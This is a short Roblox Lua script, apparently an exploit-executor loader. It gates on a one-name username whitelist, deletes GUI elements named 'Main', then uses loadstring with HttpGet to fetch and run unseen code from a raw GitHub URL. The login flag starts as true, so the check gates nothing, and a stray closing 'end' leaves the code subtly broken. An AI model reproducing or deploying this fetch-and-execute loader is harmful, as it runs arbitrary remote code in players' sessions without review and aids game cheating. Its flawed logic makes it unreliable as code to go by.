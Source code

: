 -- // Logins: // --

local Usernames = {
["Eyo"] = true;
}

-- // Variables: // --

local Login = game.CoreGui.Login

local Username = Login.Main.UserFrame.UserBox

local Userpassed = true



-- // Login Function: // --

if Usernames[Username.Text] then
Userpassed = true
else
game.Players.LocalPlayer:Kick("Invalid username.")
end


if Userpassed == true then
for i,v in pairs(game.CoreGui:GetDescendants()) do
 if v.Name == "Main" then
  v:Destroy()
 end
end
loadstring(game:HttpGet('https://raw.githubusercontent.com/Balligusapos/Balligusapos/main/popit'))()
end
end
